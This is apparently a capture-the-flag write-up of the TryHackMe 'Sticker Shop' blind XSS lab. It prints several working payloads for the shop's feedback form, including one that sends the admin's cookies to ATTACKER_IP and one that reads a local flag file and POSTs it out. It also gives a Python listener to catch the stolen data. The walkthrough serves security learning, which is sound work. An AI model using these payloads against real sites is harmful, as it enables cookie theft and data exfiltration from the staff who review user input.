 # The Sticker Shop - TryHackMe Writeup

## Challenge Description

**Task 1**  
The sticker shop is finally online!  
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Objective**:  
Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?
---

## Table of Contents
- [Walkthrough](#walkthrough)
  - [Initial Exploration](#initial-exploration)
  - [The Feedback Page](#the-feedback-page)
  - [Crafting the Payloads](#crafting-the-payloads)
    - [Initial Test Payload](#initial-test-payload)
    - [Cookie Payload (Unsuccessful)](#cookie-payload-unsuccessful)
    - [Direct File Access (Successful)](#direct-file-access-successful)
- [Decode the Flag](#decode-the-flag)

---


## Walkthrough

### Initial Exploration
When I first read the challenge prompt, a few things caught my attention. The mention of hosting everything on the same computer sounded like a major vulnerability waiting to happen, especially if the admin reviews feedback on the same browser. The **hint** in the description felt like a nudge toward something admin-side, like a **Blind XSS**.

1. I visited `http://MACHINE_IP:8080/flag.txt` directly, hoping the flag was accessible.  
   - **Result**: I was greeted with a **401 Unauthorized** error. So, no luck here.

2. I went to the homepage at `http://MACHINE_IP:8080/`.  
   - This was a basic website, nothing fancy. But from here, I navigated to the **Feedback page**.

---

### The Feedback Page
The feedback page had a simple textbox for entering comments and a message below it:

> "Thanks for your feedback! It will be evaluated shortly by our staff."

At this point, I had a pretty strong suspicion that this was a **Blind XSS** challenge. The wording in both the prompt and the feedback page hinted at admin-side activity:  
- "evaluated shortly"  
- "feedback is important"

I decided to test for Blind XSS by injecting a basic payload into the textbox.

---

### Crafting the Payloads

#### Initial Test Payload
To confirm whether XSS was possible, I used a simple test payload:

```html
<img src="http://ATTACKER_IP:8000">
```
In order to actually receive this, I first had to start a python simple http server on my machine

```bash
python3 -m http.server 8000
```
soon after I sent the XSS payload requests started floading my terminal:
```bash
MACHINE_IP - - [29/Nov/2024 17:42:25] "GET / HTTP/1.1" 200 -
```
This confirmed it, the machine **is vulnerable to Blind XSS**. Now what was left to do was to get the admin bot to do something useful

#### Cookie Payload (unsuccesfull)
The first trick on my book was to steal the admin's cookie to gain access to the flag.txt file, to do that I used the following payload:

```html
<img src="invalid-image" onerror="fetch('http://ATTACKER_IP:8000/cookies?cookie=' + document.cookie)">
```
Unfortunately, this did not yield anything usefull, the website probably doesn't have cookies or my payload wan't able to capture it.

```bash
MACHINE_IP - - [29/Nov/2024 17:45:25] code 404, message File not found
MACHINE_IP - - [29/Nov/2024 17:45:25] "GET /cookies?cookie= HTTP/1.1" 404 -
```
#### Direct File Access (succesfull!)
The next thing was to see if I could get the admin to go to the flag.txt file and send its contents back to my http server. To do this a simplehttp does not suffice since it does not support POST requests

Using the following code, I made a better http server to view POST requests too:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        print(f"POST data received: {post_data}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_GET(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query = urllib.parse.parse_qs(parsed_path.query)
        print(f"GET request received: {query}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("Server started on port 8000...")
server.serve_forever()
```
Now all I needed was a new payload, after a lot of tries (and espressos) I finally found a working one:

```html
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(flag => fetch('http://ATTACKER_IP:8000/flag',{method:'POST',body:btoa(flag),mode:'no-cors'})).catch(e => fetch('http://ATTACKER_IP:8000/error',{method:'POST',body:btoa(e.message),mode:'no-cors'}));">
```
Be sure to change ```ATTACKER_IP``` with your openvpn ip, as per the ip fetched, you might be wondering why it is a 127.0.0.1 ip. I found out using other payloads that the "admin" doesn't use the openvpn ip we see (why would it if the file is on his computer?), instead it has a local one, which works way better.

---
### Decode the Flag
If everything went right, you received a base64 encoded flag, to decode it use a tool like [cyberchef](https://gchq.github.io/CyberChef/).

---

## Final Thoughts

This challenge was like making a perfect espresso: patience, precision, and the right blend of ideas. Blind XSS taught me to adapt to localhost quirks and think creatively about admin-side processing. 

Grazie for reading, and buona fortuna on your next hack! 🔒💻

